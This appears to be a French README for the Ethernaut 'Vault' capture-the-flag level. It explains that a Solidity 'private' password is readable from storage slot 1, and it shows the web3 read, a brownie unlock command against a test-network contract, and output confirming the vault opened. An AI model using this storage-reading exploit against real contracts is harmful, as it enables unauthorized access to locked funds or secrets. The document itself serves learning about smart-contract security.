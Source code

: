 # Vault

## Objectif
L'objectif de ce challenge est de déverrouiller le vault

## Contract

Le contrat est très simple, pour pouvoir le déverrouiller, il faut appeler la méthode [`unlock`](contracts/vault.sol#13) en lui donnant le bon mot de passe.

Le bon mot de passe est un [membre `private`](contracts/vault.sol#6) du contrat

Le mot clé `private` signifie seulement que la variable est seulement visible du contrat qui la définit.
Mais il est possible de lire le contenu de la variable.

Les membres des contract sont stockés dans des slots dont le premier index est 0

Dans le cas du contrat `Vault`, nous avons le membre `locked` qui est socké dans le slot d'index 0 et le membre `password` dans le slot d'index 1

En lisant la valeur stocké dans le slot d'index 1, nous récupérons le mot de passe:
```
read_password = web3.eth.get_storage_at(vault.address, 1)
```


## Exécution du script d'attaque
Afin de pouvoir agir sur la chaine `rinkeby`, il est nécessaire de créer un fichier `.env` contenant la clé de projet [Infura](https://infura.io/) et la valeur de la clé privée du compte utilisé pour le challenge:
```shell
export WEB3_INFURA_PROJECT_ID='AABBCCDD.......'
export PRIVATE_KEY='0xDEADBEEFCACA...'
```

En utilisant la console sur le site d'[ethernaut openzeppelin](https://ethernaut.openzeppelin.com/level/0xf94b476063B6379A3c8b6C836efB8B3e10eDe188) on récupère l'adresse du contrat déployé pour lancer l'attaque ainsi:
```bash
$ brownie run scripts/unlock.py main "0xDe765054224062E20ea0bf282696984d685B9704" --network rinkeby
```
```console
Brownie v1.18.1 - Python development framework for Ethereum

VaultProject is the active project.

Running 'scripts/unlock.py::main'...
Locked: True
Transaction sent: 0xcbd474af778d212430e17bb9d68a1e93995d1619cbb59155d62be70ce096a073
  Gas price: 1.000000014 gwei   Gas limit: 31896   Nonce: 237
  Transaction confirmed   Block: 10464941   Gas used: 24197 (75.86%)

Locked: False
```

